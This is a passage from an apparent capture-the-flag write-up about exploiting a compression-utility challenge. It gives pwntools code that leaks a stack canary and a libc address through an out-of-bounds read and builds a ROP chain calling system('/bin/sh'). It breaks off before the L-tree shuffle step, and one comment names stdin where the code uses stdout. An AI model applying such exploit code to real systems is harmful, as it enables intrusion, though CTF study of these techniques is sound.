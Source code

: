 ```
  Please select an option: 
```

In this case, we get the leak `0001CB1A377BA5D1000000000000000080B7817179730000`, where the first 8 bytes are the stack canary and the last 8 bytes are the libc address (be aware of endianness). In the exploit, it looks like this:

```python
# Decompress vulnerability to read out of bounds
io.sendlineafter(b"Please select an option: ", b"2")
io.sendlineafter(b"Please enter the input string (hex format): ", b"280C4001") # Read length = 24, distance = 4736 (see helper)

io.recvuntil(b"Output (hex)            : ")
leak = io.recvline().decode().strip()
leak = bytes.fromhex(leak)
canary = u64(leak[:8])
libc_leak = u64(leak[16:24])
log.info(f"Canary: {hex(canary)}")
log.info(f"Libc leak: {hex(libc_leak)}") # _IO_2_1_stdin_
libc.address = libc_leak - libc.sym["_IO_2_1_stdout_"]
log.info(f"Libc base: {hex(libc.address)}")
log.info(f"system: {hex(libc.sym['system'])}")
log.info(f"/bin/sh: {hex(next(libc.search(b'/bin/sh')))}")
```

Now that we have the leak, we should attempt to perform the buffer overflow. First, we change the parameters to make sure that the LZ77 part of the algorithm (length-distance) is not used.

```python
# Change parameters for easier compression (literals only, no matches)
io.sendlineafter(b"Please select an option: ", b"3")
io.sendlineafter(b"512): ", b"1") # window size
io.sendlineafter(b"3): ", b"10000") # min match
```

Now, with the default L-tree, `AA` will compress to a code with 9 bits, whereas `41` will compress to a code with `8` bits. But just using the default L-tree will not work for our ROP chain, as for instance a null-byte is reserved for the literal 256 (end of block marker). So we have no way of decompressing something that will compress into a null-byte.

For reference, our ROP chain is a simple ROP chain that calls `system("/bin/sh")`. The ROP chain is as follows:

```python
pop_rdi = libc.address + 0x000000000002a3e5 # 0x000000000002a3e5 : pop rdi ; ret
ret =     libc.address + 0x0000000000029139 # 0x0000000000029139 : ret

extra_ret = p64(ret) if EXTRA_PADDING else b"" # For stack alignment

payload = p64(canary) + b"A"*8 + extra_ret + p64(pop_rdi) + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym["system"])
```

So, we must shuffle the L-tree over and over again until we find a shuffle that works for our ROP chain. This is done in the exploit as follows:
